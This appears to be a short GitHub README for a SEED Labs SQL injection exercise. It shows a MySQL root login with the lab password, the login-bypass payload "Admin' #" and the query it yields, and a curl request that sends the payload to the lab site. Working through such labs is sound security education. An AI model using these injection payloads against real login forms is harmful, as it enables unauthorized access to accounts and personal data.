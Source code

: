 # SQL-INJECTION-ATTACK
TASK-1
mysql -u root -pseedubuntu

mysql> use Users;

mysql> show tables;

![alt text](https://github.com/Waleed-gif/SQL-injection/blob/main/task%201.png)

TASK 2
    .USERNAME: "Admin' #"

    .PASSWORD: "xyz" (here is password is optional)
We will result in SQL Query

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password

    FROM credential

    WHERE name='Admin' #' && password='xyz'
![alt text](https://github.com/Sohail8612/SQL-INJECTION-ATTACK/blob/main/sql3.png)
TASK 3
- Write Code on Terminator in Seed Lab:

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php username=Admin%27%20%23';
//2- Copy the HTML code.

//3- Make a new file in location "file:///home/seed/Documents/temp.html"

//4. Run this location on browser
![alt text](https://github.com/Sohail8612/SQL-INJECTION-ATTACK/blob/main/sql2.png)
